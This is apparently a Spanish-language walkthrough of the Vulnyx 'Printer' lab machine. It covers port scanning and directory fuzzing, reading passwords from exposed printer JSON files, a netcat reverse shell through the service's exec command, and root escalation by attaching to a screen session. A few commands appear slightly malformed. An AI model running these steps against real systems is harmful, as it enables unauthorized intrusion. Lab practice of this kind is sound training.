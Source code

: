 ```yaml
---
layout: post
title: "Printer"
date: 2024-04-30 13:20:23
category: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Printer </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#printer"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/printer/host.png){:.margin}

**1\.** Listamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/printer/arp.png){:.margin}

**2\.** Escaneamos puertos y servicios en la máquina Printer.

`sudo nmap -p- --open -T5 -sS -sCV --min-rate=5000 -n -Pn 192.168.1.6 -oN report`

![img](/notas/public/img/vulnyx/printer/nmap.png){:.margin}

_\- El el servidor apache no tenemos nada, incluso fuzzeando no tenemos nada._

**3\.** Tenemos servidor Abyss, intentamos acceder, pero nos pide una contraseña.

`nc 192.168.1.6 9999`

![img](/notas/public/img/vulnyx/printer/konica_panel.png){:.margin}

**4\.** Hacemos fuzzing en busca de directorios; encontramos api.

`gobuster dir -u http://192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50`

![img](/notas/public/img/vulnyx/printer/gobuster_api.png){:.margin}

**5\.** Seguimos fuzzeando un poco más; tenemos directorio printers.

`gobuster dir -u http://192.168.1.6/api/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt`

![img](/notas/public/img/vulnyx/printer/gobuster_printers.png){:.margin}

**6\.** Vemos que apuntando a esta ruta nos da un formato de búsqueda.

`http://192.168.1.6/api/printers/`

![img](/notas/public/img/vulnyx/printer/format_printer.png){:.margin}

**7\.** Fuzzeamos el id y la extensión correspondiente; encontramos id validos en formato json.

`wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,json,php,html,txt 'http://192.168.1.6/ api/printers/printerFUZZ.FUZ2Z'`

![img](/notas/public/img/vulnyx/printer/wfuzz_id.png){:.margin}

**8\.** Vamos viendo contraseñas en los archivos json con las ids que obtuvimos.

`http://192.168.1.6/api/printers/printer1599.json`

![img](/notas/public/img/vulnyx/printer/id_json.png){:.margin}

**9\.** Probamos cada contraseña; asi obtenemos acceso.

`nc 192.168.1.6 9999`

![img](/notas/public/img/vulnyx/printer/konica_login.png){:.margin}

**10\.** Vemos comandos disponibles.

`?`

![img](/notas/public/img/vulnyx/printer/konica_help.png){:.margin}

_\- Tenemos exec que nos permite ejecutar un comando._

**11\.** Probamos el ejemplo que nos da.

`exec id`

![img](/notas/public/img/vulnyx/printer/exec_id.png){:.margin}

**12\.** Aprovechamos para obtener un reverse shell.


_\- Primero nos ponemos en escucha._

`sudo nc -nlvp`

![img](/notas/public/img/vulnyx/printer/nc_listen.png){:.margin}

_\- Obtenemos la shell._

`exec nc -e /bin/bash 192.168.1.6 443`

`id`

`whoami`

![img](/notas/public/img/vulnyx/printer/nc_connected.png){:.margin}

**13\.** Ponemos la shell totalmente interactiva.

`python -c 'import pty; pty.spawn("/bin/bash")'`

![img](/notas/public/img/vulnyx/printer/shell_interactive.png){:.margin}

**14\.** Tratamos un poco los variables de entorno.

`export TERM=xterm`

`export SHELL=bash`

![img](/notas/public/img/vulnyx/printer/export.png){:.margin}

**15\.** Buscamos binarios sudoers; tenemos varios.

`find / -type -perm -4000 2>/dev/null`

![img](/notas/public/img/vulnyx/printer/find.png){:.margin}

**16\.** Buscando info de cada binario, usaremos el binario [screen](https://book.hacktricks.xyz/v/es/linux-hardening/privilege-escalation#secuestro-de-sesiones-de-pantalla) para escalar privilegios.

`screen -x root/`

_\- Ya somos usuario root._

**17\.** Finalizo obteniendo la flag de root :) .

`ls`

`cat root.txt`

![img](/notas/public/img/vulnyx/printer/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>